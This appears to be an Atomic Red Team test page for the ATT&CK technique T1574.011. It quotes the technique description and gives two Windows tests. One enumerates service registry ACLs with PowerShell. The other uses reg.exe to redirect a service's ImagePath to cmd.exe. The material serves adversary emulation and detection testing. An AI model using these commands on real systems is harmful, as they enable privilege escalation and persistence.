 # T1574.011 - Services Registry Permissions Weakness
## [Description from ATT&CK](https://attack.mitre.org/techniques/T1574/011)
<blockquote>Adversaries may execute their own malicious payloads by hijacking the Registry entries used by services. Adversaries may use flaws in the permissions for registry to redirect from the originally specified executable to one that they control, in order to launch their own code at Service start.  Windows stores local service configuration information in the Registry under <code>HKLM\SYSTEM\CurrentControlSet\Services</code>. The information stored under a service's Registry keys can be manipulated to modify a service's execution parameters through tools such as the service controller, sc.exe,  [PowerShell](https://attack.mitre.org/techniques/T1059/001), or [Reg](https://attack.mitre.org/software/S0075). Access to Registry keys is controlled through Access Control Lists and permissions. (Citation: Registry Key Security)

If the permissions for users and groups are not properly set and allow access to the Registry keys for a service, then adversaries can change the service binPath/ImagePath to point to a different executable under their control. When the service starts or is restarted, then the adversary-controlled program will execute, allowing the adversary to gain persistence and/or privilege escalation to the account context the service is set to execute under (local/domain account, SYSTEM, LocalService, or NetworkService).

Adversaries may also alter Registry keys associated with service failure parameters (such as <code>FailureCommand</code>) that may be executed in an elevated context anytime the service fails or is intentionally corrupted.(Citation: Kansa Service related collectors)(Citation: Tweet Registry Perms Weakness) </blockquote>

## Atomic Tests

- [Atomic Test #1 - Service Registry Permissions Weakness](#atomic-test-1---service-registry-permissions-weakness)

- [Atomic Test #2 - Service ImagePath Change with reg.exe](#atomic-test-2---service-imagepath-change-with-regexe)


<br/>

## Atomic Test #1 - Service Registry Permissions Weakness
Service registry permissions weakness check and then which can lead to privilege escalation with ImagePath. eg.
reg add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /v ImagePath /d "C:\temp\AtomicRedteam.exe"

**Supported Platforms:** Windows


**auto_generated_guid:** f7536d63-7fd4-466f-89da-7e48d550752a





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service check | String | weakservicename|


#### Attack Commands: Run with `powershell`! 


```powershell
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\* |FL
get-acl REGISTRY::HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name} |FL
```






<br/>
<br/>

## Atomic Test #2 - Service ImagePath Change with reg.exe
Change Service registry ImagePath of a bengin service to a malicious file

**Supported Platforms:** Windows


**auto_generated_guid:** f38e9eea-e1d7-4ba6-b716-584791963827





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| weak_service_name | weak service name | String | calcservice|
| weak_service_path | weak service path | String | %windir%&#92;system32&#92;win32calc.exe|
| malicious_service_path | malicious service path | String | %windir%&#92;system32&#92;cmd.exe|


#### Attack Commands: Run with `command_prompt`! 


```cmd
reg.exe add "HKLM\SYSTEM\CurrentControlSet\Services\#{weak_service_name}" /f /v ImagePath /d "#{malicious_service_path}"
```

#### Cleanup Commands:
```cmd
sc.exe delete #{weak_service_name}
```



#### Dependencies:  Run with `powershell`!
##### Description: The service must exist (#{weak_service_name})
##### Check Prereq Commands:
```powershell
if (Get-Service #{weak_service_name}) {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
sc.exe create #{weak_service_name} binpath= "#{weak_service_path}"
```




<br/>
